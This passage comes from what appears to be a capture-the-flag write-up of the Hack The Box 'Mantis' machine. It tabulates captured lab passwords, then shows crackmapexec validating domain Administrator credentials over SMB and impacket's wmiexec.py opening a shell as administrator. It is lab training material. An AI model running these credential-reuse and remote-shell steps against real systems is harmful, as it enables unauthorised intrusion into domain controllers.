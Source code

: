 
Lets add it to our collection.

| Username | Password | Target |
| --- | --- | --- |
| admin | m$$ql_S@_P@ssW0rd! | orcharddb (SQL) |
| admin | @dm!n_P@ssW0rd! | OrchardCMS |
| james | J@m3s_P@ssW0rd! | htb.local (Domain) |
| Administrator | @dm!n!$tr@t0r | htb.local (Domain) |

`crackmapexec` output `(Pwn3d!)` confirms the password works.

```
$ crackmapexec smb -u 'Administrator' -p '@dm!n!$tr@t0r' -d 'HTB.local' 10.10.10.52
SMB         10.10.10.52     445    MANTIS           [*] Windows Server 2008 R2 Standard 7601 Service Pack 1 x64 (name:MANTIS) (domain:HTB.local) (signing:True) (SMBv1:True)
SMB         10.10.10.52     445    MANTIS           [+] HTB.local\Administrator:@dm!n!$tr@t0r (Pwn3d!)
```

`wmiexec.py` give us a shell with the Administrator user.

```
$ /usr/share/doc/python3-impacket/examples/wmiexec.py HTB.local/Administrator@mantis.htb.local -dc-ip mantis.htb.local

Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

Password: @dm!n!$tr@t0r
[*] SMBv2.1 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>whoami
htb\administrator
```